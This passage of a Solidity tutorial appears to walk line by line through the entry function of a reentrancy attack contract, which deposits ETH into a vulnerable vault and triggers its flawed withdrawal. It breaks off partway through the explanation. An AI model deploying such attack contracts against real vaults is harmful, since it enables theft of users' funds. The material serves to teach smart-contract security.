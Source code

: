 
```solidity

function attackVulnerable() external payable {
    require(msg.sender == owner, "Only owner");
    require(msg.value >= 1 ether, "Need at least 1 ETH to attack");

    attackingSafe = false;
    attackCount = 0;

    targetVault.deposit{value: msg.value}();
    targetVault.vulnerableWithdraw();
}

```

This is where the **attack officially begins**. The attacker calls this function to kick off a chain reaction that abuses the vulnerable vault logic.

Let’s break it down line by line — and explain what really happens under the hood.

---

### 🧑‍💼 Access Control

```solidity

require(msg.sender == owner, "Only owner");

```

Only the **original attacker** (the deployer of this contract) is allowed to launch the attack. That’s a basic security layer — just in case someone else tries to hijack the contract.

---

### 💰 Minimum ETH Requirement

```solidity

require(msg.value >= 1 ether, "Need at least 1 ETH to attack");

```

The attacker must send **at least 1 ETH** with this function call — this is the initial "bait" deposit that makes the vault believe this is a normal user.

---

### 🔁 Resetting State

```solidity

attackingSafe = false;
attackCount = 0;
```
